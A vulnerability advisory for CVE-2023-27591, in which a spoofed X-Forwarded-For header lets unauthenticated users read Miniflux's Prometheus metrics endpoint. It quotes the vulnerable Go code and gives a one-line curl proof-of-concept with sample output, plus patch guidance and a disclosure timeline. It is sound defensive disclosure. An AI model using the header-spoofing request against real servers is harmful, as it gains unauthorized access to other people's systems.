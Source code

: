 # Unauthenticated Prometheus metrics disclosure in Miniflux via IP spoofing

## Advisory Info

- Vendor: [Miniflux](https://github.com/miniflux)
- Product: [Miniflux 2](https://github.com/miniflux/v2)
- Affected Versions: >= 2.0.24 < 2.0.43
- Patched Versions: 2.0.43
- Vendor Advisory: [https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v](https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v)
- Vendor Publication Date: 2023-03-17

## Vulnerability Info

- Weakness: [CWE-290: Authentication Bypass by Spoofing](https://cwe.mitre.org/data/definitions/290.html)
- CVE: [CVE-2023-27591](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27591)

## Summary

Since [v2.0.24](https://github.com/miniflux/v2/releases/tag/2.0.24), Miniflux can be [configured](https://miniflux.app/docs/configuration.html#metrics-collector) to expose a `/metrics` endpoint which is suitable for ingestion by [Prometheus](https://prometheus.io). This endpoint is only accessible on the loopback range (`127.0.0.1/8`) [by default](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/config/options.go#L71).

The `isAllowedToAccessMetricsEndpoint` check in the `httpd` service [determines](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/httpd.go#L233-L235) whether the caller is permitted to access the metrics endpoint [using](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/httpd.go#L225) the `ClientIP`:

```go
func isAllowedToAccessMetricsEndpoint(r *http.Request) bool {
    clientIP := net.ParseIP(request.ClientIP(r))
    for _, cidr := range config.Opts.MetricsAllowedNetworks() {
        _, network, err := net.ParseCIDR(cidr)
    // [snip]
        if network.Contains(clientIP) {
            return true
        }
    }
    return false
}
```

The `ClientIP` comes from the IP address [stored](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/http/request/context.go#L113-L116) in the request context which is obtained at the [middleware level](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/middleware.go#L18):

```go
func middleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        clientIP := request.FindClientIP(r)
        ctx := r.Context()
        ctx = context.WithValue(ctx, request.ClientIPContextKey, clientIP)
    // [snip]
 }
```

The `FindClientIP` [method](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/http/request/client_ip.go#L23) called by the middleware can be influenced by the user-controllable `X-Forwarded-For` and `X-Real-Ip` request headers:

```go
func FindClientIP(r *http.Request) string {
    headers := []string{"X-Forwarded-For", "X-Real-Ip"}
    for _, header := range headers {
    value := r.Header.Get(header)
    // [snip]
}
```

Since there are no `IsAuthenticated` or `IsAdminUser` checks in front of the metrics endpoint, issuing an unauthenticated HTTP request to a publicly reachable Miniflux server with the request header `X-Forwarded-For: 127.0.0.1` will pass the `isAllowedToAccessMetricsEndpoint` check and return the Prometheus metrics when `METRICS_COLLECTOR` is enabled.

## Steps to Reproduce

1. Bring up an instance of Miniflux (herein `https://miniflux`) following the [installation instructions](https://miniflux.app/docs/installation.html) ensuring that the `METRICS_COLLECTOR` configuration option is enabled.

2. Run the following curl command from another host:

```bash
curl "https://miniflux/metrics" --header "X-Forwarded-For: 127.0.0.1"
```

3. Observe that the Prometheus metrics for the Miniflux instance are returned:

```bash
# [snip]
# HELP miniflux_broken_feeds Number of broken feeds
# TYPE miniflux_broken_feeds gauge
miniflux_broken_feeds 0
# HELP miniflux_db_connections_idle The number of idle connections
# TYPE miniflux_db_connections_idle gauge
miniflux_db_connections_idle 0
# HELP miniflux_db_connections_in_use The number of connections currently in use
# TYPE miniflux_db_connections_in_use gauge
miniflux_db_connections_in_use 0
# HELP miniflux_db_connections_max_idle_closed The total number of connections closed due to SetMaxIdleConns
# TYPE miniflux_db_connections_max_idle_closed gauge
miniflux_db_connections_max_idle_closed 0
# HELP miniflux_db_connections_max_idle_time_closed The total number of connections closed due to SetConnMaxIdleTime
# TYPE miniflux_db_connections_max_idle_time_closed gauge
miniflux_db_connections_max_idle_time_closed 0
# HELP miniflux_db_connections_max_lifetime_closed The total number of connections closed due to SetConnMaxLifetime
# TYPE miniflux_db_connections_max_lifetime_closed gauge
miniflux_db_connections_max_lifetime_closed 0
# HELP miniflux_db_connections_wait_count The total number of connections waited for
# TYPE miniflux_db_connections_wait_count gauge
miniflux_db_connections_wait_count 0
# HELP miniflux_db_open_connections The number of established connections both in use and idle
# TYPE miniflux_db_open_connections gauge
miniflux_db_open_connections 0
# HELP miniflux_users Number of users
# TYPE miniflux_users gauge
miniflux_users 0
# [snip]
```

## Impact

An unauthenticated user can retrieve Prometheus metrics from a publicly reachable Miniflux instance where the `METRICS_COLLECTOR` [configuration option](https://miniflux.app/docs/configuration.html#metrics-collector) is enabled and `METRICS_ALLOWED_NETWORKS` is set to 127.0.0.1/8 (default). The [available metrics](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/metric/metric.go) contain statistical information about the Go environment and Miniflux database.

## Recommendations

If you run a Miniflux server with the `METRICS_COLLECTOR` configuration option enabled, you should update to Miniflux version 2.0.43 or above. You are also recommended to use HTTP basic authentication with the `METRICS_USERNAME` and `METRICS_PASSWORD` options to protect the metrics endpoint or run Miniflux behind a trusted reverse proxy.

## Timeline

- 2023-03-11: Vulnerability discovery
- 2023-03-11: Advisory sent to vendor
- 2023-03-12: Vendor acknowledgment
- 2023-03-12: Vendor commits fix ([PR 1](https://github.com/miniflux/v2/pull/1744), [PR 2](https://github.com/miniflux/v2/pull/1745))
- 2023-03-17: Vendor releases v2.0.43
- 2023-03-17: Vendor public disclosure via [GitHub Security Advisory](https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v)
